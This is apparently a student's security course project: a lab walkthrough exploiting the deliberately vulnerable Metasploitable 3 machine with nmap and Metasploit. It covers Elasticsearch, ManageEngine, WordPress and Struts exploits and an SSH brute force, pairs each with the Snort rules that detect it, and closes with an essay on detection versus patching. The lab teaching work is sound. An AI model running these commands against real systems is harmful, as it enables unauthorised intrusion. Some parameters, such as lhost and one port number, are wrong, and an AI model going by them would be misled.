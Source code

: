 Please GO THROUGH THE PDF FILE

# Cybersecurity_base_project_2
Metasploitable 3 and Snort rules 
Cyber security base – Project 2

Target – Metasploitable 3
	    Windows Server 2008 & Ubuntu server 14

STEP 1: Run an Nmap Ping sweep scan to look for potential connected devices  

$ nmap -sP 192.168.1.1/24


STEP 2: Identify Target Host – 192.168.1.40

STEP 3: Run an nmap scan on the target machine with OS Fingerprinting and save the output in a file called Meta3.nmap


I ran a verbose nmap scan for which i have attached the output file:

# Nmap 7.80 scan initiated Sun Mar  8 20:48:34 2020 as: nmap -sC -sV -p- -A -oA Meta3 192.168.1.40 (output file attached)

The scan results reveled a lot of valuable information about the open ports and services running on the target machine. There is no authentication required to access the administrative functions, default credentials are not changed and there are several outdated versions running. Snort didn’t alert about anything, because port scan detection configurations has been commented out from snort.conf on default.

EXPLOIT I – ELASTIC SEARCH – CVE-2014-3120

STEP 4: PORT 9200 – Elasticsearch

Googling about the gethered information i stumbled upon this link which has an exploit for that service. 

Vulnerability name: Elastic search - CVE-2014-3120

https://www.rapid7.com/db/modules/exploit/multi/misc/java_rmi_server

STEP 5: Run a searchsploit and check if you have the exploit in local machine.

$ searchsploit elasticsearch



STEP 6: Turn on metasploit

$ msfconsole








STEP 7: search for an exploit and exploit the machine.

$ search elasticsearch
$ use exploit/multi/elasticsearch/script_mvel_rce
$ options
$ set rhost 192.168.1.40
$ exploit

you get a shell once you get a shell, you can run the following commands.

# sysinfo
# shell
# whoami


Snort did not log any alerts

SNORT RULE FIX: but after uncommenting line 811 (depends about ruleset) on server-other.rules file, Snort produces the following message: SERVER-OTHER ElasticSearch script remote code execution attempt [**] [Classification: Attempted User Privilege Gain]

EXPLOIT II - ManageEngine (CVE-2015-8249)

STEP 1: Port 8020 is running an Apache service 

STEP 2: Visit <your_meta_ip>:8020



Manage Engine is running in that port with a default username and password admin:admin

Manage Engine : Build No – 91084 

Googling for such information we get the following Poc
https://blog.rapid7.com/2015/12/14/r7-2015-22-manageengine-desktop-central-9-fileuploadservlet-connectionid-vulnerability-cve-2015-8249/

STEP 3: look for exploits in your device 

$ searchsploit manageengine desktop central 9


STEP 4: Turn on metasploit

$ msfconsole
$ search manageengie
$ use exploit/windows/http/manageengine_connectionid_write
$ set rhost 192.168.1.40
$ exploit

you gain meterprerer shell, run the following commands to conform.
# sysinfo			# shell 			# whoami
Once again, Snort doesn’t alert about anything, but this can easily be changed by 

SNORT RULE FIX: Uncommenting lines 1854-1856 on server-webapp.rules gives us following: SERVER-WEBAPP ManageEngine Desktop Central FileUploadServlet directory traversal attempt [**] [Classification: Web Application Attack]


Exploit III - WordPress – CVE-2016-1209
STEP 1: Visit <Meta_ip:>8585 you can see that wordpress is running.

STEP 2: Googling a little bit we found the following exploit
https://www.rapid7.com/db/modules/exploit/unix/webapp/wp_ninja_forms_unauthenticated_file_upload
STEP 3: Trun on metasploit console and exploit the target.
$ msfconsole
$ search wp_ninja_forms
$ use exploit/multi/http/wp_ninja_forms_unauthenticated_file_upload
$ set rhost 192.168.1.40
$ set rport 8585
$ set TARGETURI /wordpress/
$ set FORM_PATH /index.php/king-of-hearts/
$ exploit

SNORT RULE FIX : After uncommenting line 2284 in server-webapp.rules and adding the port 8585 into monitoring HTTP traffic, Snort gives the following alert: SERVER-WEBAPP WordPress Ninja Forms nf_async_upload arbitrary PHP file upload attempt [**] [Classification: Attempted Administrator Privilege Gain]


EXPLOIT 4: Bruteforcing SSH
STEP 1: When you gained a root access last time, run the following command to see a list of all users in the system.
$net users

We can use the metaploit module for ssh_login to try to brute force into some of these available names.

STEP 2: save all the user name in a text file





















STEP 3: turn on metasploit and use the ssh_login module to check for insecure passwords same as username.

$ use auxiliary/scanner/ssh/ssh_login
$ set rhost 192.168.1.40
$ set USER_AS_PASS true
$ set USER_FILE user.txt
$ exploit

Give the user file that we created to metasploit and exploit

I had some issues with my arch linux so had to shift back to kali for this one.
We can already see that we got some valid credentials like Vagrant:Vagrant.

SNORT FIX : Snort could probably be generated for slower (longer) SSH brute force attempts, but for such a fast SSH connection it wouldn’t be wise to start raising alert flags (considering admin’s point of view).


EXPLOIT 5: Apache Struts CVE-2016-3087

STEP 1: Look nmap result port 8282 runs Apache Tomcat Server, 

STEP 2: After a bit of research we find the following:
https://www.rapid7.com/db/vulnerabilities/struts-cve-2016-3087

STEP 3: Open metasploit and look for exploit and hack the box.
$ msfconsole
$ search rest_exec
$ use exploit/multi/http/struts_dmi_rest_exec
$ set lhost 192.168.1.40
$ set lport 8282
$ exploit


We hacked the box 

SNORT RULE FIX: We can get Snort to figure this out by uncommenting lines 118 and 119 from server-apache.rules (which I had already done) and adding port 828 for monitoring. This gives us following message: SERVER-APACHE Apache Struts remote code execution attempt [**] [Classification: Attempted Administrator Privilege Gain]

Is it easier to fix the application than to detect attacks?

In my opinion, it is a lot easier to detect attacks than to fix an application. 
Because, the latter can be approached in various diffent ways than the former. 
In other words, it is more efficient to perform reconnissance, pen testing and privilege escalation to find the faults with 
the application than to go through millions of lines of codes to find faults to fix. 
More over, in the latter approach, ususally, one vulernability fix would give rise to multiple vulnerabilites and 
mistakes could be done on implementation level as well, not necessarily on the code level. 
So, problems like this could really put developers out of their elements. 
This is liable to make developers cause more errors as well. 
Developers usually have a lot on their plate and it is hard for them to take care of fixing the applications all by 
themselves especially with the recent proliferation in IoT. That is where intrusion detection comes in. 
Intrusion detection is at least a countermeasure, even though in not a direct way and it gives information about the 
possible vulnerabilities both on the system and its applications. 
Systems that are based on modern open source are obviously easier to fix, but first you must find the vulnerabilities, 
so considering the problem at hand, intrusion detection is also needed. Pentesting report and vulnerability analysis 
can actually expdite the process of fixing application. Usually, other than Intrusion Detection Systems (IDE) like snort. 
detecting attacks are done through managing and detecting logs as well. 
If there is any out of ordinary behavior is noticed in logs, 
then we can brace ourself for a vulnerability assessment and check for software or hardware to be updated 
(not all the time, false positives are really irritating though).
